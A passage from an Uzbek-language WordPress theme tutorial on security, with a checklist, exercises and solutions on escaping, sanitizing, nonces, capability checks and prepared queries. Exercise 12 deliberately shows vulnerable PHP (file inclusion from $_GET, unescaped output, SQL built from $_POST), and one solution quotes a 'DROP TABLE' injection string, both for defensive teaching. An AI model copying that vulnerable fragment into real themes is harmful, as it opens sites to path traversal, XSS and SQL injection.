> **Mumkin bo'lsa Settings/REST API afzal:** tema sozlamalarini saqlash uchun WordPress'ning Settings API (`register_setting` bilan `sanitize_callback`) yoki REST API (avtomat nonce + permission_callback) ko'p ishni o'zi bajaradi. Qo'lda forma faqat zarur bo'lganda yozing.

---

## Xavfsizlik nazorat ro'yxati (checklist)

Temani chiqarishdan oldin shu ro'yxatni tekshiring:

- [ ] **Har** dinamik chiqish escape qilingan (`esc_html`/`esc_attr`/`esc_url`/`wp_kses_post`), to'g'ri kontekstda.
- [ ] **Har** kirish (`$_POST`/`$_GET`/forma/meta) `wp_unslash` + `sanitize_*` bilan tozalangan.
- [ ] **Har** ma'lumot o'zgartiruvchi forma/amal nonce bilan himoyalangan (`wp_nonce_field` + tekshiruv).
- [ ] **Har** admin amali oldidan `current_user_can()` ruxsat tekshiruvi bor.
- [ ] To'g'ridan-to'g'ri `$wpdb` so'rovlari `$wpdb->prepare()` bilan.
- [ ] `include`/fayl yo'llari oq ro'yxat bilan, `get_template_directory()` orqali.
- [ ] Tarjima matnlari `esc_html__`/`esc_attr__` bilan (i18n + escape birga).
- [ ] Hech qaerda `echo $_GET[...]` yoki escape'siz dinamik chiqish yo'q.

> **Avtomatlashtirilgan tekshiruv:** WordPress Coding Standards (`WordPress.Security.EscapeOutput`, `WordPress.Security.NonceVerification`, `WordPress.Security.ValidatedSanitizedInput`) PHPCS sniff'lari aynan shu xatolarni topadi. 29-bobda Theme Check va PHPCS sozlashni ko'ramiz.

---

## Mashqlar

### Oson

1. **To'g'ri escape funksiyani tanlang.** Quyidagi uch joy uchun mos `esc_*` funksiyani yozing: (a) `<h2>` ichidagi post sarlavhasi; (b) `<a href="...">` dagi URL; (c) `` atributidagi matn.
2. **`echo $_GET` ni tuzating.** Quyidagi xavfli qatorni xavfsiz qiling: `<p><?php echo $_GET['xabar']; ?></p>`. Kirishda sanitize, chiqishda escape qo'shing.
3. **`wp_kses_post` qo'llang.** Foydalanuvchi izohini (`$izoh`) `<script>` siz, lekin `<strong>`/`<a>` bilan chiqaring. Bir qator yozing.
4. **`absint` bilan ID.** `$_GET['post_id']` dan musbat butun son ID ni xavfsiz oling (default 0). Bir qator yozing.

### O'rta

5. **Formaga nonce qo'shing.** Quyidagi formaga `wp_nonce_field` qo'shing (action `kitob_obuna`, name `kitob_obuna_nonce`): `<form method="post"><input name="email"><button>Obuna</button></form>`.
6. **Nonce'ni tekshiring.** 5-mashqdagi forma yuborilganda nonce'ni `wp_verify_nonce` bilan tekshiring; noto'g'ri bo'lsa `wp_die` bilan to'xtating. Faqat tekshiruv qismini yozing.
7. **Kirishni sanitize qiling.** `$_POST` dan `ism` (matn), `yosh` (musbat son), `email` (email) ni `wp_unslash` + mos `sanitize_*` bilan oling. Uch qator yozing.
8. **`esc_html__` bilan i18n+escape.** `<button>` ichidagi "Yuborish" matnini ham tarjima qilinadigan, ham escape qilingan qiling. `kitob` text domain ishlating.

### Qiyin

9. **To'liq xavfsiz forma.** "Ism" va "Email" maydonli formani yozing: nonce (action `kitob_aloqa`), yuborilganda nonce tekshiruvi, `wp_unslash`+sanitize, `is_email` validation, har chiqish escape. Forma maydonlari xato holatida qayta to'lsin (`esc_attr`). `php -l` bilan tekshiring.
10. **`$wpdb->prepare` bilan so'rov.** `$wpdb` orqali berilgan kategoriya ID (`$_GET['kat']`) bo'yicha 5 ta postni xavfsiz so'rovchi kodni yozing — `prepare` (`%d`), `absint` ishlating. (Eslatma: amalda `WP_Query` afzal, lekin bu yerda `prepare` ni mashq qiling.)
11. **Ruxsat + nonce + sanitize.** Admin sozlamasini (`kitob_rang`) saqlovchi POST ishlovchini yozing: avval `current_user_can('manage_options')`, keyin `check_admin_referer('kitob_sozlama','kitob_sozlama_nonce')`, keyin `sanitize_hex_color` bilan tozalab `update_option`. `php -l` bilan tekshiring.
12. **Xavfli kodni tuzating.** Quyidagi temadagi fragmentdagi **barcha** xavfsizlik xatolarini toping va tuzating:
    ```php
    <?php include $_GET['view'] . '.php'; ?>
    <h1><?php echo $_GET['title']; ?></h1>
    <a href="<?php echo $_GET['link']; ?>">Havola</a>
    <?php $wpdb->query("DELETE FROM wp_x WHERE id=" . $_POST['id']); ?>
    ```
13. **`get_template_part` oq ro'yxat.** Foydalanuvchi tanlagan bo'lak nomini (`$_GET['bolak']`) xavfsiz yuklang: faqat `banner`, `cta`, `footer` ga ruxsat, `sanitize_key` + `in_array(..., true)`, `get_template_part('parts/'.$nom)`. `php -l` bilan tekshiring.
14. **Dinamik blok render'ida escape.** Dinamik blok `render.php` da `$attributes['sarlavha']` (matn) va `$attributes['havola']` (URL) ni xavfsiz chiqaruvchi `<a>` markupni yozing. Tegishli `esc_*` funksiyalarni tanlang.

---

## Yechimlar

<details markdown="1">
<summary>Yechim — 1</summary>

```php
<!-- (a) HTML matn ichida -->
<h2><?php echo esc_html( get_the_title() ); ?></h2>

<!-- (b) URL (href) -->
<a href="<?php echo esc_url( get_permalink() ); ?>">O'qish</a>

<!-- (c) Atribut qiymati -->
" alt="<?php echo esc_attr( $alt_matn ); ?>">
```

Kontekst qoidasi: teglar **orasi** -> `esc_html`; **atribut** -> `esc_attr`; **URL** -> `esc_url`.

</details>

<details markdown="1">
<summary>Yechim — 2</summary>

```php
<?php
$xabar = isset( $_GET['xabar'] )
	? sanitize_text_field( wp_unslash( $_GET['xabar'] ) )
	: '';
?>
<p><?php echo esc_html( $xabar ); ?></p>
```

Ikki bosqich: kirishda `wp_unslash` + `sanitize_text_field`, chiqishda `esc_html`. `isset` bilan yo'q kalit `Warning` bermaydi.

</details>

<details markdown="1">
<summary>Yechim — 3</summary>

```php
<div class="izoh"><?php echo wp_kses_post( $izoh ); ?></div>
```

`wp_kses_post` post mazmunida ruxsat etilgan teglarni (`<strong>`, `<a>`, `<em>`...) saqlaydi, `<script>` va boshqa xavfli teglarni o'chiradi. Jonli sinov: `<p>Matn <strong>qalin</strong> <script>x</script></p>` -> `<p>Matn <strong>qalin</strong> x</p>`.

</details>

<details markdown="1">
<summary>Yechim — 4</summary>

```php
<?php $post_id = absint( $_GET['post_id'] ?? 0 ); ?>
```

`absint` salbiy belgi va matn qoldiqlarini olib tashlab, musbat butun son qaytaradi. Jonli sinov: `absint('-42abc')` -> `42`.

</details>

<details markdown="1">
<summary>Yechim — 5</summary>

```php
<form method="post" action="">
	<?php wp_nonce_field( 'kitob_obuna', 'kitob_obuna_nonce' ); ?>
	<input name="email">
	<button>Obuna</button>
</form>
```

`wp_nonce_field` yashirin `<input type="hidden" name="kitob_obuna_nonce" value="...">` va `_wp_http_referer` maydonlarini avtomatik chiqaradi.

</details>

<details markdown="1">
<summary>Yechim — 6</summary>

```php
<?php
if ( isset( $_POST['kitob_obuna_nonce'] ) ) {
	$nonce = sanitize_text_field( wp_unslash( $_POST['kitob_obuna_nonce'] ) );
	if ( ! wp_verify_nonce( $nonce, 'kitob_obuna' ) ) {
		wp_die( esc_html__( 'Xavfsizlik tekshiruvi muvaffaqiyatsiz.', 'kitob' ) );
	}
	// ... amalni davom ettirish
}
```

`! wp_verify_nonce(...)` ni tekshiramiz (`false` bo'lsa to'xtatamiz). Jonli sinov: to'g'ri token+action -> `int(1)`; noto'g'ri -> `false`.

</details>

<details markdown="1">
<summary>Yechim — 7</summary>

```php
<?php
$ism   = sanitize_text_field( wp_unslash( $_POST['ism'] ?? '' ) );
$yosh  = absint( $_POST['yosh'] ?? 0 );
$email = sanitize_email( wp_unslash( $_POST['email'] ?? '' ) );
```

Har bir tur uchun mos sanitizer: matn -> `sanitize_text_field`, musbat son -> `absint`, email -> `sanitize_email`. Hammasi oldidan `wp_unslash` (son uchun `absint` slash'ni baribir yo'q qiladi, lekin izchillik uchun matn/email da albatta).

</details>

<details markdown="1">
<summary>Yechim — 8</summary>

```php
<button type="submit"><?php esc_html_e( 'Yuborish', 'kitob' ); ?></button>
```

`esc_html_e` = `echo esc_html__` — ya'ni tarjima qiladi (`kitob` text domain) va darhol escape qilib chiqaradi. Jonli sinov: `esc_html__('Salom & xayr', 'kitob')` -> `Salom &amp; xayr`.

</details>

<details markdown="1">
<summary>Yechim — 9</summary>

```php
<?php
defined( 'ABSPATH' ) || exit;
$xabar = '';
if ( 'POST' === $_SERVER['REQUEST_METHOD'] && isset( $_POST['kitob_aloqa_nonce'] ) ) {
	if ( ! wp_verify_nonce(
		sanitize_text_field( wp_unslash( $_POST['kitob_aloqa_nonce'] ) ),
		'kitob_aloqa'
	) ) {
		wp_die( esc_html__( 'Xavfsizlik tekshiruvi muvaffaqiyatsiz.', 'kitob' ) );
	}
	$ism   = sanitize_text_field( wp_unslash( $_POST['ism'] ?? '' ) );
	$email = sanitize_email( wp_unslash( $_POST['email'] ?? '' ) );
	if ( '' === $ism ) {
		$xabar = esc_html__( 'Ism majburiy.', 'kitob' );
	} elseif ( ! is_email( $email ) ) {
		$xabar = esc_html__( 'Email noto\'g\'ri.', 'kitob' );
	} else {
		$xabar = esc_html__( 'Qabul qilindi.', 'kitob' );
	}
}
?>
<?php if ( '' !== $xabar ) : ?>
	<p><?php echo esc_html( $xabar ); ?></p>
<?php endif; ?>
<form method="post" action="">
	<?php wp_nonce_field( 'kitob_aloqa', 'kitob_aloqa_nonce' ); ?>
	<input type="text" name="ism" value="<?php echo esc_attr( $_POST['ism'] ?? '' ); ?>">
	<input type="email" name="email" value="<?php echo esc_attr( $_POST['email'] ?? '' ); ?>">
	<button type="submit"><?php esc_html_e( 'Yuborish', 'kitob' ); ?></button>
</form>
```

`php -l` -> *No syntax errors detected*. Beshta tamoyil: nonce, sanitize, validate (`is_email`), escape (chiqish va qayta to'ldirish), `wp_die`.

</details>

<details markdown="1">
<summary>Yechim — 10</summary>

```php
<?php
global $wpdb;
$kat     = absint( $_GET['kat'] ?? 0 );
$postlar = $wpdb->get_results(
	$wpdb->prepare(
		"SELECT p.ID, p.post_title
		 FROM {$wpdb->posts} p
		 INNER JOIN {$wpdb->term_relationships} tr ON p.ID = tr.object_id
		 WHERE tr.term_taxonomy_id = %d
		   AND p.post_status = %s
		   AND p.post_type = %s
		 LIMIT %d",
		$kat,
		'publish',
		'post',
		5
	)
);
```

`php -l` -> *No syntax errors detected*. `%d` (kat, limit), `%s` (status, type) — barcha qiymatlar placeholder orqali. Jadval nomlari (`{$wpdb->posts}`) placeholder emas. Jonli sinov `prepare` injection urinishini qochirishini tasdiqladi: `"publish'; DROP TABLE x; --"` -> `'publish\'; DROP TABLE x; --'`.

</details>

<details markdown="1">
<summary>Yechim — 11</summary>

```php
<?php
function kitob_rang_saqla() {
	if ( 'POST' !== $_SERVER['REQUEST_METHOD'] || ! isset( $_POST['kitob_sozlama_nonce'] ) ) {
		return;
	}
	// 1. Ruxsat.
	if ( ! current_user_can( 'manage_options' ) ) {
		wp_die( esc_html__( 'Ruxsat yo\'q.', 'kitob' ) );
	}
	// 2. Nonce (noto'g'ri bo'lsa o'zi wp_die qiladi).
	check_admin_referer( 'kitob_sozlama', 'kitob_sozlama_nonce' );
	// 3. Sanitize + saqlash.
	$rang = sanitize_hex_color( wp_unslash( $_POST['kitob_rang'] ?? '' ) );
	if ( $rang ) {
		update_option( 'kitob_rang', $rang );
	}
}
add_action( 'admin_init', 'kitob_rang_saqla' );
```

`php -l` -> *No syntax errors detected*. Uch tekshiruv tartibi: ruxsat (`current_user_can`) -> niyat (`check_admin_referer`) -> tozalash (`sanitize_hex_color`). `sanitize_hex_color` noto'g'ri rang uchun bo'sh qaytaradi, shuning uchun `if ($rang)`. Jonli sinov: admin uchun `current_user_can('edit_posts')` -> `bool(true)`.

</details>

<details markdown="1">
<summary>Yechim — 12</summary>

To'rt xato bor, har biri tuzatilgan:

```php
<?php
defined( 'ABSPATH' ) || exit;

// 1) include — oq ro'yxat + get_template_part (directory traversal himoya)
$ruxsat = array( 'banner', 'sidebar', 'cta' );
$view   = sanitize_key( $_GET['view'] ?? '' );
if ( in_array( $view, $ruxsat, true ) ) {
	get_template_part( 'parts/' . $view );
}
?>

<!-- 2) sarlavha — sanitize + esc_html (XSS himoya) -->
<h1><?php echo esc_html( sanitize_text_field( wp_unslash( $_GET['title'] ?? '' ) ) ); ?></h1>

<!-- 3) havola — esc_url (javascript: protokol bloklanadi) -->
<a href="<?php echo esc_url( wp_unslash( $_GET['link'] ?? '' ) ); ?>">Havola</a>

<?php
// 4) DELETE — capability + nonce + prepare (CSRF + SQL injection + ruxsat)
if ( current_user_can( 'manage_options' ) && check_admin_referer( 'kitob_ochirish' ) ) {
	global $wpdb;
	$wpdb->query(
		$wpdb->prepare( "DELETE FROM {$wpdb->prefix}x WHERE id = %d", absint( $_POST['id'] ?? 0 ) )
	);
}
```

Xatolar: (1) `include $_GET` -> directory traversal; (2) `echo $_GET['title']` -> XSS; (3) escape'siz `href` -> `javascript:` XSS; (4) `$wpdb->query` ga `$_POST['id']` to'g'ridan-to'g'ri -> SQL injection + nonce/ruxsat yo'q. `php -l` -> *No syntax errors detected*.

</details>

<details markdown="1">
<summary>Yechim — 13</summary>

```php
<?php
$ruxsat = array( 'banner', 'cta', 'footer' );
$nom    = sanitize_key( $_GET['bolak'] ?? '' );
if ( in_array( $nom, $ruxsat, true ) ) {
	get_template_part( 'parts/' . $nom );
}
```

`php -l` -> *No syntax errors detected*. `sanitize_key` faqat `a-z0-9_-` qoldiradi (jonli sinov: `'Mening_KALIT 123!@#'` -> `mening_kalit123`), oq ro'yxat esa ixtiyoriy bo'lak yuklanishini bloklaydi. `in_array(..., true)` — qat'iy (strict) taqqoslash, tip-jonglyorlikni oldini oladi.

</details>

<details markdown="1">
<summary>Yechim — 14</summary>

```php
<?php
/** @var array $attributes */
$sarlavha = $attributes['sarlavha'] ?? '';
$havola   = $attributes['havola'] ?? '';
?>
<a href="<?php echo esc_url( $havola ); ?>" <?php echo get_block_wrapper_attributes(); ?>>
	<?php echo esc_html( $sarlavha ); ?>
</a>
```

URL -> `esc_url` (xavfli protokol bloklanadi), sarlavha matni (teglar orasida) -> `esc_html`. Atributlar (`$attributes`) foydalanuvchi nazoratida bo'lgani uchun ular ham "begona" deb escape qilinadi (24-bobdagi qoida). `get_block_wrapper_attributes()` qaytargan string WordPress tomonidan xavfsiz tayyorlangani uchun qo'shimcha escape kerak emas.

</details>

---

[⬅️ Oldingi: 26 — WooCommerce tema integratsiyasi](./26-woocommerce-tema.md) · [🏠 README](./README.md) · [Keyingi: 28 — i18n/l10n va accessibility ➡️](./28-i18n-accessibility.md)
